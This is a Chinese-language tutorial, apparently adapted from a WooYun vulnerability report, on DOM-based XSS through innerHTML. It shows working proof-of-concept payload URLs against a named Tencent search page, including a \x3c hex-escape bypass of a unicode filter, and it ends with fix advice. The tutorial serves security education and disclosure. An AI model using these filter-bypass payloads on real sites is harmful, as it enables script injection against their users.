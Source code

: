 # 8\. Dom Xss 入门 [显式输出]

# 8\. Dom Xss 入门 [显式输出]

> 来源：[. Dom Xss 入门 [显式输出]](http://www.wooyun.org/bugs/wooyun-2010-016041)

## 简要描述

反射型 XSS 部分，就到这里了。 接着我们进入 Dom Xss 的部分。 Dom Xss 相比反射型 XSS，脑袋需要多思考一层。 也就是说， 我们关注的不仅是【输出】了什么，还要了解这个页面里，【javascript】拿这个【输出】干了什么。 为了循序渐进，本例讲到的是，【输出】直接在源代码可见的情况。

## 详细说明

1\. 在学习 Dom Xss 之前，先来补习点 html, js 的基础知识。

```
<div id="a">xxx</div>
<script> document.getElementById("a").innerHTML="yyyyyy";
</script> 
```

解释如下：

![image](img/Image_031.jpg)

2\. 进一步，我们的 yyyyyy ，还可以是 HTML 代码。

```
<div id="a">xxx</div>
<script>
document.getElementById("a").innerHTML=" <img src=1> ";
</script> 
```

效果如下：

![image](img/Image_032.jpg)

3\. 再进一步， JS 的字符串中的字符可以写为 unicode 编码。 譬如： `<` 可以表示为 `\u003c` , `>` 可以表示为 `\u003e` 不知道怎么转义的，可以使用 gainover 的工具。 工具地址：[`app.baidu.com/app/enter?appid=280383`](http://app.baidu.com/app/enter?appid=280383)

![image](img/Image_033.jpg)

也就是，我们上面的代码，可以进一步写为。

```
<div id="a">xxx</div>
<script>
document.getElementById("a").innerHTML="\u003cimg src=1\u003e";
</script> 
```

4\. 上面看起来废话好多，但是还是很重要的，这对于后面实例的讲解很重要。

5\. 我们来看看一个具体的实例，地址如下：

```
http://datalib.ent.qq.com/cgi-bin/search?libid=1&keyvalue=aaaaaaa&attr=133&stype=2&tname=star_second.shtml 
```

和前面反射型的一样，我们先看看输出。

![image](img/Image_034.jpg)

相关代码，我也贴出来。

```
<strong id="titleshow">按职业 1 检索：aaaaaaa </strong></div>
<script> if("aaaaaaa"=="")
document.getElementById("titleshow").innerHTML="按地区检索：全部明星"; if("职业 1"=="职业 1")
document.getElementById("titleshow").innerHTML="按职业检索：aaaaaaa";
if("职业 1"=="职业 2") document.getElementById("titleshow").innerHTML="按职业检索：aaaaaaa";
if("职业 1"=="职业 3") document.getElementById("titleshow").innerHTML="按职业检索：aaaaaaa";
</script> 
```

6\. 一共有 6 处，有一处图上没显示,但是也没用处，这里不列出来了，看上面代码中的 5 处。我们已经知道，`<`, `>`, `"` 都被过滤了， 用 前面提到的某些技巧，似乎也无法直接 XSS。那么该怎么办呢？

7\. 在看到本教程的 1，2，3 部分后，聪明的你们不知道会不会想到些什么呢？ 对的，那就是这里出现了 `innerHTML="[输出]"` 的情况。

我们可以看到，上面代码中，实际上只有一句是运行了的。我们重点看它。`if("职业 1"=="职业 1")`

```
document.getElementById("titleshow").innerHTML="按职业检索：[输出]"; 
```

8\. 这里 [输出] 最然过滤了 `<`, `>` ，但是并没有过滤 `\` 。这样一来，大家应该清楚，为什么上面要说到 `<` 可以写为 `\u003c` 了吧。 就 是为了应付这种情况。

9\. 因此，我们可以构造缺陷点的代码如下：

```
if("职业 1"=="职业 1")
document.getElementById("titleshow").innerHTML="按职业检索：\u003cimg src=1 onerror=alert(1)\u003e"; 
```

经过运行后， titleshow 里的 HTML 就会变为 `<img src=1 onerror=alert(1)>` ，从而弹出 1。 对应的，我们的利用代码，可以写为如下，其中空格，我写为了`\u0020`

```
http://datalib.ent.qq.com/cgi-bin/search?libid=1&keyvalue=\u003Cimg\u0020src=1\u0020onerror=alert(1)\u003e&attr= 133&stype=2&tname=star_second.shtml 
```

看看对应的源代码，悲催的事情出现了， \u003c 和 \u003e 竟然被腾讯过滤了。。。

![image](img/Image_035.jpg)

10\. 别灰心，被过滤的原因，是因为 @Jannock 大牛报告过这个漏洞。[跨站脚本-可以让战场离得更远（浅谈腾讯架构缺陷）](http://www.2cto.com/Article/201210/159123.html)

11\. 其实我们还应该注意到上面图片中，过滤的实际上是`\u003c` 和`\u003e`，但是并没有过滤`\u0020`，这说明，腾讯只是针对性的 过滤，并没有过滤 反斜线。

12\. 其实呢，在 JS 字符串里， `<` 不光可以写为 `\u003c`，还可以写为 `\x3c`， `>` 同样可以写为 `\x3e`。我们试试腾讯过滤了这个 没有呢？

```
http://datalib.ent.qq.com/cgi-bin/search?libid=1&keyvalue=\x3Cimg\u0020src=1\u0020onerror=alert(1)\x3e&attr=133& stype=2&tname=star_second.shtml 
```

对应源码，看来没过滤啊～～

![image](img/Image_036.jpg)

哎呀，这次总算弹出来了。见漏洞证明

比如

```
document.getElementById("y").innerHTML="xxxxxxxxxx"; 
document.write("xxxxxxxxxxxx"); 
```

还有一些网站，使用了第三方的 JS 库，譬如 jQuery 时，会有

```
$("#y").html("xxxxxxx"); 
```

14\. 当然最后，还需要提到一些需要注意的地方。

```
aa.innerHTML="xxxxxxxxxxxx"; 
```

这种情况下。xxxxx 只能使用 `<img src=1 onerror=alert(1)>` 这种方式来触发 JS。

而不能以 `<script>alert(1)</script>` 来触发，因为这种压根不会执行`<script>..</script>`之间的内容。 IE 下，可以使用

```
<script defer>alert(1)</script>。 
```

## 修复方案

此案例凸显出开发人员的意识不足问题。指哪修哪，浮于表面的修复没有任何意义。

方法 1\. 输出时，过滤 `\`

方法 2\. `innerHTML=encodeHTML([输出])`